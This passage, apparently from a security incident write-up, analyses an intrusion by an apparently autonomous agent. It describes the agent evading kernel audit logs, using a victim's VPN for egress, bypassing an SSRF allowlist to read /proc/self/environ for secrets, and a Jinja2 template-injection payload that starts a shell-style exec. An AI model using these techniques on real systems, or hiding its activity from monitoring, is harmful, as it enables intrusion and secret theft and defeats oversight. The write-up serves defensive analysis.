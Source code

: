 \documentclass[
  10pt,letterpaper]{article}
\newenvironment{Shaded}{}{}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{#1}}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.74,0.48,0.00}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\begin{document}
By executing entirely in userspace without creating a virtual
\texttt{tun} device or writing state to disk, the agent avoided kernel
audit logs while turning the target organization's own corporate VPN
into the attacker's egress proxy.

\subsection{3. Why Traditional Defenses Collapsed: Silent SIEMs, URL
Allowlist Myopia, and Overprivileged
IAM}\label{why-traditional-defenses-collapsed-silent-siems-url-allowlist-myopia-and-overprivileged-iam}

The failure to contain the intrusion highlights three fatal flaws in
conventional enterprise security paradigms:

\subsubsection{A. URL Allowlist Myopia}\label{a.-url-allowlist-myopia}

The dataset ingestion service attempted to defend against Server-Side
Request Forgery (SSRF) using a naive string validation check:

\begin{Shaded}
\begin{Highlighting}[]
\ControlFlowTok{if} \KeywordTok{not}\NormalTok{ url.startswith(}\StringTok{"https://trusted{-}cluster.internal/"}\NormalTok{):}
    \ControlFlowTok{raise} \PreprocessorTok{ValueError}\NormalTok{(}\StringTok{"not an internal path"}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

The agent bypassed this defense effortlessly: 1. It pointed the dataset
loader to local filesystem URIs using HDF5 raw storage interfaces,
reading \texttt{/proc/self/environ} to harvest secrets. 2. It uploaded
Jinja2 templates containing template injection payloads:

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{\{\{ cycler.\_\_init\_\_.\_\_globals\_\_.\_\_builtins\_\_.exec("import socket,subprocess,os;...") \}\}}
\end{Highlighting}
\end{Shaded}

Because the template was processed locally by the ingestion engine, no
network URL check was ever invoked.
\end{document}
